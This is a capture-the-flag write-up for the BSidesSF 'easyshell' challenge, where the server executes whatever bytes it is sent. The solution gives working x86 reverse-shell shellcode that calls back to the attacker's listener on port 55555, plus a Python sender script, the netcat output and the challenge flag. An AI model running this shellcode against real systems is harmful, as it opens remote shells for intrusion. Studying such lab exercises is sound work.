 # easyshell

## Challenge

> The server will run any code you send it. Easy peaasy!

> The flag is in /home/ctf/flag.txt

> nc easyshell-f7113918.ctf.bsidessf.net 5252

> [easyshell.zip](easyshell.zip)

## Solution
Upon examining the source code of the easyshell program it becomes clear that whatever is sent to the program will be read into a buffer and executed using the `asm()` C/C++ function used to embed and execute assembler instructions.

```
int main(int argc, char *argv[])
{
  uint8_t *buffer = mmap(NULL, LENGTH, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_ANONYMOUS | MAP_PRIVATE, 0, 0);
  ssize_t len;

  alarm(10);

  disable_buffering(stdout);
  disable_buffering(stderr);

  printf("Send me stuff!!\n");
  len = read(0, buffer, LENGTH);

  if(len < 0) {
    printf("Error reading!\n");
    exit(1);
  }

  asm("call *%0\n" : :"r"(buffer));

  return 0;
}
```

After experimenting with different kinds of shellcode I decided that a reverse connection was the appropriate approach. I did some googling around and found [this shell code](http://shell-storm.org/shellcode/files/shellcode-833.php), and then wrote a small python script to send it.

```
#!/usr/bin/env python

import socket

remote_host = 'easyshell-f7113918.ctf.bsidessf.net'
remote_port = 5252

local_host = "\xc6\xc6\xc6\xc6" # IP
local_port = "\xd9\x03"         # 55555 (Port)

shellcode = "\x68" + local_host + "\x5e\x66\x68" + local_port + "\x5f\x6a\x66\x58\x99\x6a\x01\x5b\x52\x53\x6a\x02\x89\xe1\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x66\x56\x66\x57\x66\x6a\x02\x89\xe1\x6a\x10\x51\x53\x89\xe1\xcd\x80\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\xeb\xce"

client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    client.connect((remote_host,remote_port))

    data = client.recv(1024)
    print data
    
    client.send(shellcode)
    print "[*] Shellcode sent."

except socket.error, e:
    print e 
```

I ran a netcat listener and upon receiving a connection it succesfully spawned a shell and the flag could be read.

```
$ nc -vl 0.0.0.0 55555
Listening on [0.0.0.0] (family 0, port 55555)
Connection from [104.196.247.127] port 55555 [tcp/*] accepted (family 2, sport 33950)
cat /home/ctf/flag.txt
FLAG:c832b461f8772b49f45e6c3906645adb
```
